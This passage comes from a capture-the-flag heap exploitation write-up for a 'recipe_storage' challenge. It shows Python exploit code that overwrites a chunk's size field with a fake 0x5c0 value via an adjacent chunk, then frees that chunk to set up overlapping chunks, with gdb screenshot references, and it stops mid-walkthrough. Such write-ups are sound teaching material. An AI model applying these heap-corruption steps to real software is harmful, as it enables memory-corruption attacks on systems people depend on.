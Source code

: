 In the next code snippet, we will do the actual overwrite of the size field:<br>
```
# Overwrite the size field of chunk6
# by using chunk0 right behind chunk6
p = b"D"*0x420
p += p64(0) # chunk 0 itself is 0 since still allocated
p += p16(0x5b1 + 0x10) # remember prev in use (chunk0 is in use)
edit(0, p)
```
Resulting in:<br>
<img src="/assets/images/linux/heap/writeups/recipe_storage/recipe_gdb_8.png" style="width:100%; height:100%;" />
<br>
And remember that we set up the 0x71 fake size field at the correct offset from the 0x5c0 size field on address 0x55555555c0e0 which has the distance of 0x5c0 from our 0x5c0 fake size field:<br>
<img src="/assets/images/linux/heap/writeups/recipe_storage/recipe_gdb_9.png" style="width:100%; height:100%;" />
<br>
Next up, we free the chunks at index 6 and then at index 4:<br>
```
free(6)
```
This will make the heap look like this (0x5c0 chunk successfully freed):<br>